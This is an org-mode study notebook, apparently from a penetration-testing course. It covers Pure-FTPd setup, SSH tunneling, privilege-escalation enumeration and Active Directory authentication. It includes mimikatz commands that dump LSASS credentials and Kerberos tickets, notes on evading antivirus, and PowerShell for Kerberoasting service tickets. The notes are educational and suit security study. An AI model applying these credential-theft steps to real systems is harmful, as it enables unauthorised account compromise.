*** TODO install Pure-FTPd
   + src:
   #+begin_src sh
sudo apt update && sudo apt install pure-ftpd

##setup
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome     | # lab
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
   #+end_src
   
*** TODO the Non-Interactive shell
    + src:
    #+begin_src sh
ftp <ip>
    #+end_src
    
    + problem:
      - the interactive shell feedback is not visiable to bind/reverse shell user.
        
*** upgrading a Non-Interactive shell # python spawn shell
    + src:
    #+begin_src sh
# in a bind shell
python -c 'import pty; pty.spawn("/bin/bash")'
    #+end_src
    
** Transferring Files with Windows Hosts
   
//TODO


* Book3_Chapter 18 Privilege Escalation
** entry
   + services - misconfigured 
   + services or binaries - insufficient permission restriction
   + kernel - vulnerabilities
   + software running with high privileges - vulnerabilities
   + sensitive information stored on local files
   + ? registry settings that always elevate privilege before executing a binary
   + installation scripts - may contain hard coded credentials
   + etc.
     
** information gathering
   | Enumeratiing        | Linux                     | Windows         |
   |---------------------+---------------------------+-----------------|
   | user                | whoami                    | whoami          |
   |                     | id                        | net user [user] |
   |                     | /etc/passwd               | net user        |
   |                     | /etc/hostname             | hostname        |
   | OS Ver. & Architect | /etc/issue /etc/*-release | systeminfo      |
   |                     | uname -a                  |                 |
   + src
   #+begin_src powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
  #TODO
   #+end_src
   #+begin_src sh
cat /etc/issue
cat /etc/*-release
   #+end_src
   
//TODO 516 ~ 560 lab

* TODO Book3_Chapter 19 Password Attacks
** TODO with the basic list
  
** TODO 560~585 wordlist, etc

** Leveraging Password Hashes
*** Retrieving Password Hashes
    + src:
    #+begin_src sh
hashid '<hash>'                # hashtype analyse
    #+end_src
    
**** Windows::Security Accounts Manager(SAM) : mimikatz
     [[https://en.wikipedia.org/wiki/Security_Accounts_Manager]]
     + %SystemRoot%/system32/config/SAM
       - filesystem lock : the file cannot be accessed because the file is open in system. unless the system is shut down or blue screen exception has been thrown.
       - however, memory dump possible.
     + user passwords hash type:
       - LAN Manager (LM) hash, based on DES
       - NT LAN Manager (NTLM) hash, MD4
         
* Book3_Chapter 20 Port Redirection and Tunneling
  + ssh bind forward
  + https encapsulated forward
    
** ssh port forwarding
   + summary:
     - ssh -L <lP>:<dstHost>:<dstPortOfDstHost> <jumpHost>
     - at $thisMachine, connection to $lP will be tunneled through $jumpHost, to $dstHost:$dstPortOfDstHost

     - ssh -R <rP>:<dstHost(near)>:<dstPortOfDstHost> <remoteHost>
     - at $remoteHost, connection to $rP will be tunneled back through $thisMachine, to $dstHost:$dstPortOfDstHost

   + ref: [[https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot/115906#115906?newreg=af8295aa987441dfb6cef53ffca8139a][ssh port forwarding explaination]]
   + img: 
     - [[./img/b3cp20_ssh-local-port-forwarding.png]]
     - [[./img/b3cp20_ssh-remote-port-forwarding.png]]

   + src:
   #+begin_src sh
ssh -L [bind_address:]<localPort>[[:remoteHost]:remotePort] <id>@<remoteHost>
  # the <localHost> will listen to <localPort> during the ssh session, and forward all inbound traffic to remotePort.
  # *-L must specify the remote destination port*: to communicate with the sshServer:dstPort

ssh –L 5901:10.10.0.5:3306 user@example.com
  # local port 5901 will be forward to user@example.com at ip 10.10.0.5 through ssh, to remote port 4492. Useful for accessing remote services (database server, etc.)

ssh -R [bind_address:]<remotePort>[[:host]:hostport] <id>@<remoteHost> 
  # the <remoteHost> will listen to <remotePort> during the ssh session, and forward all inbound traffic to host:hostport or the ssh client(localhost) by default.

ssh -D [bind_address:]<localPort> <id>@<remoteHost>
  # SOCK4/5 supported(man 1 ssh, 2020). application level dynamical forwarding. Listen to local port <localPort>, forward any incoming traffic to <id>@<remoteHost>, outbound port on the remote machine is then determined by application level protocol.
  # *-D cannot specify the remote destination port*: use the ssh-server as a proxy.
   #+end_src
   
*** ssh tricks
    + src: 
    #+begin_quote
~?' Display a list of escape characters.
~.' Disconnect.
~^Z' Background ssh.
~#' List forwarded connections.
~&' Background ssh at logout when waiting for forwarded connection / X11 sessions to terminate.
~B' Send a BREAK to the remote system (only useful for SSH protocol version 2 and if the peer supports it).
~C' Open command line. Currently this allows the addition of port forwardings using the -L, -R and -D options (see above)....
~R' Request rekeying of the connection (only useful for SSH protocol version 2 and if the peer supports it).
    #+end_quote
    
* Book3_Chapter 21 Active Directory Attacks
  
** misc
  + versions of windows server
    - the "desktop"
    - Server Core (since Windows Server 2008 R2, minimal server without GUI)
    - Server Nano (since Windows Server 2016, more minimal than Server Core, not eligible as Domain Controller)
 
** Active Directory Theory
*** Lightweight Directory Access Protocol(LDAP)
    + docs:
      - [[https://ldapwiki.com/wiki/][LDAPwiki]]
    // TODO p627 links
    + LDAP URI scheme:
      [[https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol]]
      
    + LDAP provider path:
      - src:
      #+begin_src powershell
LDAP://HostName[:PortNumber][/DistinguishedName]
      #+end_src
      - [[https://msdn.microsoft.com/en-us/library/aa746384(v=vs.85).aspx]]
    + CN : Common Name
    + OU : Organizational Unit
    + DC : Domain Component
    #+CAPTION: OU is like folder, and CN anything else
    [[./img/b3cp21_cn_ou.png]]
   
*** components::Domain Controller (DC)
    + about:
    #+begin_quote
    Active Directory consists of several components. The most important component is the domain controller (DC), which is *a Windows 2000-2019 server with the Active Directory Domain Services role installed*. The domain controller is the hub and core of Active Directory because it stores all information about how the specific instance of Active Directory is configured. It also enforces a vast variety of rules that govern how objects within a given Windows domain interact with each other, and what services and tools are available to end users.
    #+end_quote
    + Readings
      - [[https://technet.microsoft.com/library/cc786438(v=ws.10).aspx][MS doc-Domain Controller Roles]]

    + about:
    #+begin_quote
    When an instance of Active Directory is configured, a domain is created with a name such as corp.com where corp is the name of the organization. Within this domain, we can add various types of objects, including computer and user objects.
    #+end_quote
*** components::Organizational Units (OU)
    + about:
    #+begin_quote
    System administrators can (and almost always do) organize these objects with the help of Organizational Units (OU). OUs are comparable to file system folders in that they are containers used to store and group other objects. Computer objects represent actual servers and workstations that are domain-joined (part of the domain), and user objects represent employees in the organization. All AD objects contain attributes, which vary according to the type of object. For example, a user object may include attributes such as first name, last name, username, and password.
    #+end_quote
     [[https://technet.microsoft.com/en-us/library/cc978003.aspx]]
     
*** FSMO roles
    + info:
 [[https://support.microsoft.com/en-gb/help/197132/active-directory-fsmo-roles-in-windows]]
    #+begin_quote
    Active Directory is the central repository in which all objects in an enterprise and their respective attributes are stored. It is a hierarchical, multi-master enabled database, capable of storing millions of objects. Because it is multi-master, changes to the database can be processed at any given domain controller (DC) in the enterprise regardless of whether the DC is connected or disconnected from the network.
    #+end_quote
    + AD is *multi-master enabled* database. This model allows the flexibility that change could occur at any Domain Controller(DC) in the enterprise. However, this model could also possibility leads to conflicts(under race condition). To resolve this problem, AD use algorithm e.g. last writer wins. Or, to prevent the conflict use *Single-master model* in some cases.
    #+begin_quote
    To prevent conflicting updates in Windows, the Active Directory performs updates to certain objects in a single-master fashion. In a single-master model, only one DC in the entire directory is allowed to process updates. This is similar to the role given to a primary domain controller (PDC) in earlier versions of Windows (such as Microsoft Windows NT 3.51 and 4.0), in which the PDC is responsible for processing all updates in a given domain.

    Active Directory extends the single-master model found in earlier versions of Windows to include multiple roles, and the ability to transfer roles to any DC in the enterprise. Because an Active Directory role is not bound to a single DC, it is referred to as an FSMO role. Currently in Windows there are five FSMO roles:

    1. *Schema Master* - (one per forest?).
       + The schema master FSMO role holder is the DC responsible for performing updates to the directory schema (that is, the schema naming context or LDAP://cn=schema,cn=configuration,dc=<domain>). This DC is the only one that can process updates to the *directory schema*. Once the Schema update is complete, it is replicated from the schema master to all other DCs in the directory. There is only one schema master per directory.

    2. *Domain Naming Master* - (one per forest?).
       + The domain naming master FSMO role holder is the DC responsible for making changes to the forest-wide domain name space of the directory (that is, the Partitions\Configuration naming context or LDAP://CN=Partitions, CN=Configuration, DC=<domain>). This DC is the only one that can add or remove a domain from the directory. It can also add or remove cross references to domains in external directories.

    3. *Relative ID (RID) Master* - (one per domain?).
       + The RID master FSMO role holder is the single DC responsible for processing RID Pool requests from all DCs within a given domain. It is also responsible for removing an object from its domain and putting it in another domain during an object move.
       + When a DC creates a security principal object such as a user or group, it attaches a unique Security ID (SID) to the object. This SID consists of a domain SID (the same for all SIDs created in a domain), and a relative ID (RID) that is unique for each security principal SID created in a domain.
       + Each Windows DC in a domain is allocated a pool of RIDs that it is allowed to assign to the security principals it creates. When a DC's allocated RID pool falls below a threshold, that DC issues a request for additional RIDs to the domain's RID master. The domain RID master responds to the request by retrieving RIDs from the domain's unallocated RID pool and assigns them to the pool of the requesting DC. There is one RID master per domain in a directory.

    4. *Primary Domain Controller (PDC) Emulator* - (one per domain?).
       + The PDC emulator is necessary to synchronize time in an enterprise. Windows includes the W32Time (Windows Time) time service that is required by the Kerberos authentication protocol. All Windows-based computers within an enterprise use a common time. The purpose of the time service is to ensure that the Windows Time service uses a hierarchical relationship that controls authority and does not permit loops to ensure appropriate common time usage.
       + The PDC emulator of a domain is authoritative for the domain. The PDC emulator at the root of the forest becomes authoritative for the enterprise, and should be configured to gather the time from an external source. All PDC FSMO role holders follow the hierarchy of domains in the selection of their in-bound time partner.
       + In a Windows domain, the PDC emulator role holder retains the following functions:
         - Password changes performed by other DCs in the domain are replicated preferentially to the PDC emulator.
         - Authentication failures that occur at a given DC in a domain because of an incorrect password are forwarded to the PDC emulator before a bad password failure message is reported to the user.
         - Account lockout is processed on the PDC emulator.
         - The PDC emulator performs all of the functionality that a Microsoft Windows NT 4.0 Server-based PDC or earlier PDC performs for Windows NT 4.0-based or earlier clients.
       + ... (changelogs for pre-Windows 2000 system)

    5. *Infrastructure Master* - (one per domain?).
       + When an object in one domain is referenced by another object in another domain, it represents the reference by:
         - The GUID
         - The SID (for references to security principals)
         - The DN of the object being referenced

       + The infrastructure FSMO role holder is the DC responsible for updating an object's SID and distinguished name in a cross-domain object reference.
    #+end_quote

** Active Directory Enumeration
   + typically begins with a breach on a domain workstation or server, providing initial access, followed by enumeration of the AD environment.
   + goal: privilege escalation until gain control of domains. methods:
     - compromise a user of high-privilege group(e.g. Domain Admins group)
     - compromise a domain controller
       #+begin_quote
       ...since it may be used to modify all domain-joined computers or execute applications on them. Additionally, as we will see later, the domain controller contains all the password hashes of every single domain user account.
       #+end_quote
*** first goal::enumerate the domain users and learn as much as we can about their group memberships in search of high-value targets.
    
**** Traditional Approach : net.exe
     + src:
     #+begin_src powershell
net user                           # enum all local accounts
net user /domain                   # enum all users in the domain
  #### adam Guest iis_service sql_service jeff_admin
net user jeff_admin /domain
net group /domain                  # enum all groups in the domain
  #### *Secret_Group *Nested_Group
  
net group <global_security_group> /domain        # enum all group users
net localgroup <domain_local_security_group> /domain
     #+end_src
     + info:
       - Nested Group
       #+begin_quote
In Active Directory, a group (and subsequently all the included members) can be added as member to another group. This is known as a nested group.
       #+end_quote
       - TODO ?
       #+begin_quote
Unfortunately, the net.exe command line tool cannot list nested groups and only shows the direct user members. Given this and other limitations, we will explore a more flexible alternative in the next section that is more effective in larger real-world environments.
       #+end_quote
       
**** A Mordern Approach : 
     + other approaches:
       - Get-ADUser: powershell Remote Server Administration Tools (RSAT). need admin privilege to run.
         [[https://technet.microsoft.com/en-us/library/gg413289.aspx]]
     
     + a script:
       - overview:
       #+begin_quote
As an overview, this script will *query the network for the name of the Primary domain controller emulator and the domain*, *search Active Directory and filter the output to display user accounts*, and then clean up the output for readability.
       #+end_quote
       + use a DirectorySearcher object, to query the AD using LDAP.
       + The LDAP needs:
         - target hostname
         - DistinguishedName (DN) of the domain

       - src:
    #+begin_src powershell
## [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
## get a domain object

[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    ## Forest : corp.com
    ## DomainControllers : {DC01.corp.com}
    ## Children : {}
    ## DomainMode : Unknown
    ## DomainModeLevel : 7
    ## Parent :
    ## PdcRoleOwner : DC01.corp.com
    ## RidRoleOwner : DC01.corp.com
    ## InfrastructureRoleOwner : DC01.corp.com
    ## Name : corp.com
    #+end_src

    #+begin_src powershell
## build the LDAP search string with the domain object

$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$SearchString

## LDAP://<PdcRoleOwner>/<Name.split('.')...>
## LDAP://DC01.corp.com/DC=corp,DC=com

## instantiate Searcher, Searcher.SearchRoot set to the entire AD
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain

## set filters, or search: *LDAP Famous filters*
$Searcher.filter="samAccountType=805306368"

    ## $Searcher.FindAll()

    ## | Path                                            | Properties      |
    ## |-------------------------------------------------+-----------------|
    ## | LDAP://CN=Administrator,CN=Users,DC=corp,DC=com | {admincount...} |
    ## | LDAP://CN=Guest,CN=Users,DC=corp,DC=com         | {iscritical...} |

$Result = Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    Write-Host"------------------------"
}
    #+end_src
    - TODO p632 script modifications, other filters, lab
***** Resolving Nested Groups
      
TODO p632
TODO the reason

***** Current Logged on Users
     + [[https://medium.com/@sixdub]]
     + [[https://medium.com/@sixdub/derivative-local-admin-cdd09445aac8]]

     + NetWkstaUserEnum (need admin privilege)
[[https://msdn.microsoft.com/en-us/library/windows/desktop/aa370669(v=vs.85).aspx]]
     + NetSessionEnum
[[https://docs.microsoft.com/en-us/windows/win32/api/lmshare/nf-lmshare-netsessionenum]]

     + info:
     #+begin_quote
     During an assessment, after compromising a domain machine, we should enumerate every computer in the domain and then use *NetWkstaUserEnum* against the obtained list of targets. Keep in mind that this API *will only list users logged on to a target if we have local administrator privileges* on that target.
     Alternatively we could focus our efforts on discovering the domain controllers and any potential file servers (based on servers hostnames or open ports) in the network and use *NetSessionEnum* against these servers in order to enumerate all active users’ sessions.
     #+end_quote

     + the *PowerView*, one common solution to avoid endpoint dectection.
       [[https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1]]
     + src:
     #+begin_src powershell
     TODO p636, init && src
     #+end_src
     
*** Enumeration Through Service Principal Names (the service accounts)
    + info:
    #+begin_quote
    [...]
    An alternative to attacking a domain user account is to target so-called service accounts, which may also be members of high value groups.
    When an application is executed, it must always do so in the context of an operating system user.
    If a user launches an application, that user account defines the context. However, services launched by the system itself use the context based on a Service Account.
    In other words, isolated applications can use a set of predefined service accounts: *LocalSystem*, *LocalService*, and *NetworkService*.
    For more complex applications, a domain user account may be used to provide the needed context while still having access to resources inside the domain.
    When applications like Exchange, SQL, or Internet Information Services (IIS) are integrated into Active Directory, a unique service instance identifier known as a *Service Principal Name (SPN)*  is used to associate a service on a specific server to a service account in Active Directory.
    [...]
    #+end_quote
    #+begin_quote
*Managed Service Accounts*, introduced with Windows Server 2008 R2, were designed for complex applications which require tighter integration with Active Directory. Larger applications like SQL and Microsoft Exchange often require server redundancy when running to guarantee availability, but Managed Service Accounts cannot support this. To remedy this, *Group Managed Service Accounts* were introduced with Windows Server 2012, but this requires that domain controllers run Windows Server 2012 or higher. Because of this, many organizations still rely on basic Service Accounts.
    #+end_quote
    + Aim: 
    #+begin_quote
    By enumerating all registered SPNs in the domain, we can obtain the IP address and port number of applications running on servers integrated with the target Active Directory, limiting the need for a broad port scan.
    #+end_quote
    + Method:
      - query the DC, search for specific *serviceprincipalname*.
    [[./AD_Enum.ps1]]
      - serviceprinciplename {HTTP/CorpWebServer.corp.com}
      - which reveals the url. use e.g. nslookup, for further info
        
**  Active Directory Authentication
    #+begin_quote
    Active Directory uses either Kerberos or NTLM authentication protocols for most authentication attempts. We will discuss the simpler NTLM protocol first.
    #+end_quote
    + docs:
      - [[https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf]] 
    + the hashing related service: Local Security Authority Subsystem Service (LSASS)

*** NTLM Authentication
    #+begin_quote
    NTLM authentication is used when a client authenticates to a server by IP address (instead of by hostname), or if the user attempts to authenticate to a hostname that is not registered on the Active Directory integrated DNS server. Likewise, third-party applications may choose to use NTLM authentication instead of Kerberos authentication. 
    #+end_quote
    + steps(a client login to an application server):
      - 1. client *calculate NTLM hash from the user's password*;
      - 2. client computer *send the username* to the application server;
      - 3. application server replies a random value called the *nonce* or *challenge* back to the client;
      - 4. client *encrypts the nonce using the NTLM hash*, as *response* and send it back to the application server.
      - 5. application server forwards the *response*, the *username*, and the *nonce* to the DC;
      - 6. DC encrypt the nonce again, with the user's NTLM hash and compare the result with the *response*, approve the authentication request if the comparison returns equal. DC knows all users' NTLM hash.

    + hence pass-the-hash is possible knowing NTLM hash.
    + the NTLM auth may leave footprint in eventlog.

| src        | ---pl-->                    | dst        |
| ---------- | --------------------------- | ---------- |
| client     | username                    | app-server |
| app-server | nonce                       | client     |
| client     | res(NTLM hash hashed nonce) | app-server |
| app-server | res, username, nonce        | DC         |
| DC         | auth-result                 | app-server | 

*** Kerboros Authentication
  + docs:
    - [[https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf]]
    - [[https://www.ietf.org/rfc/rfc4120.txt][RFC4120::The Kerberos Network Authentication Service (V5)]]
    - [[https://tools.ietf.org/html/rfc4757][RFC4757::The RC4-HMAC Kerberos Encryption Types Used by Microsoft Windows]] has further reference to the key encryption scheme or negotiation scheme used by Kerboros.
    - [[https://tools.ietf.org/html/rfc8009][RFC8009::AES Encryption with HMAC-SHA2 for Kerberos 5]]
      
  + info:
    - the default authentication protocol since Windows Server 2003.
    - "While NTLM authentication works through a principle of challenge and response, Windows-based Kerberos authentication uses a ticket system."
    - "At a high level, Kerberos client authentication to a service in Active Directory involves the use of a domain controller in the role of a *Key Distribution Center*, or *KDC*" 
[[./img/b3cp21_KerberosFlow.png]]
 
  + the basic: 
  #+begin_quote
  The basic Kerberos authentication process proceeds as follows: A client sends a request to the authentication server (AS) for "credentials" for a given server. *The AS responds with these credentials, encrypted in the client's key. The credentials consist of a "ticket" for the server and a temporary encryption key (often called a "session key").* The client *transmits the ticket (which contains the client's identity and a copy of the session key, all encrypted in the server's key) to the server.* The session key (now shared by the client and server) is used to authenticate the client and may optionally be used to authenticate the server. It may also be used to encrypt further communication between the two parties or to exchange a separate sub-session key to be used to encrypt further communication.
  #+end_quote

  + vectors 0:
  #+begin_quote
  Implementation of the basic protocol consists of one or more authentication servers running on *physically secure* hosts.
  #+end_quote

  + vectors 1:
  #+begin_quote
  There are two basic methods by which a client can ask a Kerberos server for credentials. In the first approach, the client sends a *cleartext request* for a ticket for the desired server to the AS. The reply is sent encrypted in the client's secret key. Usually this request is for a ticket-granting ticket (TGT), which can later be used with the ticket-granting server (TGS). In the second method, the client sends a request to the TGS. The client uses the TGT to authenticate itself to the TGS in the same manner as if it were contacting any other application server that requires Kerberos authentication. The reply is encrypted in the session key from the TGT. Though the protocol specification describes the AS and the TGS as separate servers, in practice they are implemented as different protocol entry points within a single Kerberos server.
  #+end_quote
  #+begin_quote
  To verify the identities of the principals in a transaction, the client transmits the ticket to the application server. Because the ticket is sent "in the clear" (parts of it are encrypted, but this encryption doesn't thwart replay) and might be intercepted and reused by an attacker, additional information is sent to prove that the message originated with the principal to whom the ticket was issued. This information (called *the authenticator) is encrypted in the session key and includes a timestamp.* The timestamp proves that the message was recently generated and is not a replay. Encrypting the authenticator in the session key proves that it was generated by a party possessing the session key. Since no one except the requesting principal and the server know the session key (it is never sent over the network in the clear), this guarantees the identity of the client.
  The integrity of the messages exchanged between principals can also be guaranteed by using the session key *(passed in the ticket and contained in the credentials).* This approach provides detection of both replay attacks and message stream modification attacks.
  #+end_quote
  + nouns:
    - Credentials:
    #+begin_quote
    A *ticket plus the secret session key* necessary to use that ticket successfully in an authentication exchange. 
    #+end_quote
    - Ticket:
    #+begin_quote
    A record that helps a client authenticate itself to a server; it contains the client's identity, a session key, a timestamp, and other information, all sealed using the server's secret key. It only serves to authenticate a client when presented along with a fresh Authenticator.
    #+end_quote


**** steps: The Authentication Service (AS) Exchange (RFC 4120::3.1) (user get the TGT)

  | Message direction  | Message type            |
  |--------------------+-------------------------|
  | client to Kerberos | KRB_AS_REQ              |
  | Kerberos to client | KRB_AS_REP or KRB_ERROR |

  #+begin_quote
  The Authentication Service (AS) Exchange between the client and the Kerberos Authentication Server is initiated by a client when it wishes to obtain authentication credentials for a given server but currently holds no credentials.
  #+end_quote 
    - 1. user login to workstation: user send *[KRB_]AS_REQ* ((Kerberos) Authentication Service Request) which contains username and a encrypted timestamp. The timestamp is encrypted using a *hmac* (Hash-based Message Authentication Code) derived from the user's password, to the *KDC* . For the hmac, see the docs section above, some older version use *rc4_hmac_nt* which is NTLM/md4 hash.
[[./img/b3cp21_KerberosPreAuth.png]]
    - 2. the *KDC*, also knows the *hmac*, will validate the authentication if it can decrypt the timestamp with the *hmac*. If auth success, a *TGT* (Ticket Granting Ticket) representing the user in the domain for a specified period, will be issued and send back in the *[KRB_]AS_REP* to the client. The KDC considers the client auth complete once the client has received the session key and the *TGT*.

      + "This *TGT* is encrypted with a key(the *hmac* of the *krbtgt* account) shared between all KDC", "The *TGT* contains information regarding the user, including group memberships, the domain, a time stamp, the IP address of the client, and the session key."

[[./img/b3cp21_KerberosTGT.png]]
      + the *[KRB_]AS_REP* also contains a session key(i.e. two copies, one in the AS_REP, another sealed in the TGT) since Kerberos is stateless. the session key is encrypted using the user's *hmac* .
      #+begin_quote RFC4120 3.1.
      The response, *KRB_AS_REP* , contains a ticket for the client to present to the server, and a session key that will be shared by the client and the server. The session key and additional information are encrypted in the client's secret key.
      #+end_quote

      + The *TGT* will be valid for 10 hours by default, after that a renewal occurs. "This renewal does not require the user to re-enter the password."
    
    - the *krbtgt* account's *hmac* only changes in rare cases (in some enterprises "the pw hasn't changed in years")
      + upgrade of domain functional level from 2003 to any higher level('08, '08R2, '12, '12R2) *due to the introduction of AES hashes*.
      + direct recovery
      + manually changed (compromise recovery)
    - the ticket is ASN.1 encoded? tool::OpenSSL
    
**** steps: The Ticket-Granting Service (TGS) Exchange (user get a TGS)

  | Message direction  | Message type             |
  |--------------------+--------------------------|
  | client to Kerberos | KRB_TGS_REQ              |
  | Kerberos to client | KRB_TGS_REP or KRB_ERROR |

  + TGS Exchange, the overview:
  #+begin_quote
  The TGS exchange between a client and the Kerberos TGS is *initiated by a client* when it seeks to obtain authentication credentials for a given server (which might be registered in a remote realm), when it seeks to renew or validate an existing ticket, or when it seeks to obtain a proxy ticket. In the first case, the client must already have acquired a ticket for the Ticket-Granting Service using the AS exchange (the TGT is usually obtained when a client initially authenticates to the system, such as when a user logs in).
  
  The message format for the TGS exchange is almost identical to that for the AS exchange.  The primary difference is that *encryption and decryption* in the TGS exchange does not take place under the client's key. Instead, *the session key from the TGT or renewable ticket,* or sub-session key from an Authenticator is used.  As is the case for all application servers, expired tickets are not accepted by the TGS, so once a renewable or TGT expires, the client must use a separate exchange to obtain valid tickets. (RFC 4120::3.3)
  #+end_quote

  + TGS Exchange, client side:
    - user wishes to access resources of the domain (e.g. something with a registered *SPN*): client constructs a *KRB_TGS_REQ* (Ticket Granting Service Request) packet "that consists of *the current user* and a *timestamp (encrypted using the session key),*  *the SPN of the resource,* and *the encrypted TGT.*" (and the session key)
    #+begin_quote
    The client prepares the KRB_TGS_REQ message, providing an authentication header as an element of the padata field, and including the same fields as used in the KRB_AS_REQ message along with several optional fields: the enc-authorizatfion-data field for application server use and additional tickets required by some options. ( RFC4120 3.3.1. Generation of KRB_TGS_REQ Message)
    #+end_quote

  + TGS Exchange, server side, additional checks
    - First, the Kerberos server will determine which key should be used to decrypt the TGT. (if the SPN exists in this domain then use the TGS's key, if the TGT was issued by another realm then use inter-realm key.)
      #+begin_quote
      (...), the ticket granting service on the KDC receives the TGS_REQ, and if the SPN exists in the domain, the TGT is decrypted using the secret key known only to the KDC. (PWK p646)
      #+end_quote
    - Next, the session key is extracted from the TGT, and used to decrypt other info in the TGS_REQ, and perform several checks.
      #+begin_quote
      The session key is then extracted from the TGT and used to decrypt the username and timestamp of the request. As this point the KDC performs several checks:
      1. The TGT must have a valid timestamp (no replay detected and the request has not expired).
      2. The username from the TGS_REQ has to match the username from the TGT.
      3. The client IP address needs to coincide with the TGT IP address. (PWK p646)
      #+end_quote

    - If valid, server send the *TGS_REP*
      #+begin_quote
      (...) ( the *TGS_REP* ) packet contains three parts:
      1. The SPN to which access has been granted.
      2. A session key to be used between the client and the SPN.
      3. A service ticket containing the username and group memberships along with the newly-created session key. 

      The first two parts (SPN and session key) are encrypted *using the session key associated with the creation of the TGT* and the service ticket is encrypted using *the password hash of the service account registered with the SPN* in question.
      #+end_quote

    - When the TGS Exchange is complete, the client should have both a session key and a service ticket. Then the service authentication begins.

**** steps: The Client/Server (CS) Authentication Exchange (RFC4120::3.2) (user use a TGS)

| Message direction              | Message type            |
| ------------------------------ | ----------------------- |
| Client to Application server   | KRB_AP_REQ              |
| [optional] Ap server to Client | KRB_AP_REP or KRB_ERROR |

    - CS Exchange Overview:
      #+begin_quote
      The client/server authentication (CS) exchange is used by network applications to authenticate the client to the server and vice versa. The client MUST have already acquired credentials for the server using the AS or TGS exchange. (RFC4120::3.2)
      #+end_quote
  
    - Client need to obtain the service ticket from some source, before initiating a CS Exchange:
      #+begin_quote 
      the client "obtains (either through a credentials cache, the AS exchange, or the TGS exchange) a ticket and session key for the desired service." (RFC4120::3.2.2.)
      #+end_quote
  
    - General Flow:
      #+begin_quote
      Passing these checks provides only authentication of the named principal; it does not imply authorization to use the named service. Applications MUST make a separate authorization decision based upon the authenticated name of the user, the requested operation, local access control information such as that contained in a .k5login or .k5users file, and possibly a separate distributed authorization service. (RFC4120::3.2.3.)
      #+end_quote
  
      #+begin_quote
      First, the client sends to the application server an application request or *AP_REQ* , which includes *the username and a timestamp encrypted with the session key associated with the service ticket along with the service ticket itself.* (note: the session key in the TGS_REP)
  
      The application server *decrypts the service ticket using the(note: its) service account password hash* and extracts the username and the session key. It then *uses the latter to decrypt the username from the AP_REQ.* If the AP_REQ username matches the one decrypted from the service ticket, the request is accepted. Before access is granted, the service inspects the supplied group memberships in the service ticket and assigns appropriate permissions to the user, after which the user may access the requested service. (PWK)
      #+end_quote

*** Cached Credential Storage and Retrieval
    - docs:
      + [[https://technet.microsoft.com/en-us/library/cc961760.aspx][Security Subsystem Architecture]]

    - Target::the Cached Credentials
      #+begin_quote
      Since Microsoft’s implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In current versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space. 

      If we gain access to these hashes, we could crack them to obtain the cleartext password or reuse them to perform various actions. (PWK)
      #+end_quote 
    
    - Problems:
      + need SYSTEM(local administrator) privilege, since LSASS runs as SYSTEM.
      + the LSASS data is encrypted with an LSASS-store key.
      + the in-memory data structures used by LSASS is not publicly documented.

    - Hence, tools created to tackle the problem and extract the hashes.
      + Mimikatz

**** Mimikatz
     + AV Evasion
       - Either: run directly from memory use injector like Powershell.
       [[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1]]
         + acquire SeDubugPrivlege(require local admin), with allows a process to "debug and adjust the memory of a process owned by another account.(MS doc: [[https://docs.microsoft.com/ja-jp/windows/win32/secauthz/privilege-constants][privilege-constants]])"
         + or if with SYSTEM account, scheduled tasks, psexec -s ..., (the module sekurlsa) work without the debug privilege ([[https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa]]).

       - Or: dump the entire LSASS process memory use built-in tool like Task Manager, then analysis the dump in a helper machine.

     + src:
       #+begin_quote
       C:\Tools\active_directory> mimikatz.exe

       mimikatz # privilege::debug
       Privilege '20' OK

       mimikatz # sekurlsa::logonpasswords 
       [hash dumps]

       mimikatz # sekurlsa::tickets
       [tickets dump]
       (PWK p648) 
       #+end_quote
     
     + TODO: lab p650, && obfuscate mimikatz && memory dump

*** Service Account Attacks 
    + docs:
      - [[https://adsecurity.org/?p=2293][Cracking Kerberos TGS Tickets Using Kerberoast – Exploiting Kerberos to Compromise the Active Directory Domain]]

    + info:
      - Since Kerberos TGS exchange only check a user's "authenticity" but not "authority", knowing the SPN, any user could request could request a service ticket from the DC, extract it from the local memory and save it to the disk. Then service account password could be cracked.
      #+begin_quote
      The reason why this attack is successful is that most service account passwords are the same length as the domain password minimum (often 10 or 12 characters long) meaning that even brute force cracking doesn’t likely take longer than the password maximum password age (expiration). Most service accounts don’t have passwords set to expire, so it’s likely the same password will be in effect for months if not years.
      ([[https://adsecurity.org/?p=2293]])
      #+end_quote 

    + src:
    #+begin_src ps
$SPN = 'HTTP/CorpWebServer.corp.com'
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPN 
klist
  ## built-in command, display all cached Kerberos tickets for the current user.
  ## TODO: find SPNs using LDAP filtering
    #+end_src
    #+begin_src
       C:\Tools\active_directory> mimikatz.exe

       mimikatz # privilege::debug
       Privilege '20' OK

